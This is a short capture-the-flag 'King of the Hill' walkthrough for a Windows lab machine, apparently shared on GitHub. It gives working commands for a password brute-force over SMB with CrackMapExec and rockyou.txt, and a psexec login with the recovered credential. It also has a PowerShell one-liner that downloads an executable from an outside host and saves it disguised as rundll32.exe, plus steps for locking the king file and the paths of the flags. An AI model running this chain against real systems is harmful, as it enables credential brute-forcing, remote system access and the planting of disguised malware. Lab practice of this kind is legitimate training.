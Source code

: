 # H1: Medium KOTH Guide

A direct way in is to crack the password for the achilles user via brute force, then use psexec to get a system shell.

1. Setup a crack map exec docker instance: `docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec`
2. place rockyou.txt in .cme locally, then inside the container run `cme smb 10.10.63.150 -u achilles -p /root/.cme/rockyou.txt`
3. connect to the target machine using psexec: `psexec.py TROY.thm/achilles:winniethepooh@10.10.63.150`

As seen, a password recovered is `winniethepooh`. This has been consistent across two games.

`king.txt` is at `c:\king.txt`

## Tools

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
attrib +r king.txt
```

## Flags

- C:\Users\achilles\Desktop\flag.txt
- C:\Users\agamemnon\Desktop\flag.txt
- C:\Users\hector\Desktop\flag.txt
- C:\Users\helen\Desktop\flag.txt
- C:\Users\patrocles\Desktop\flag.txt
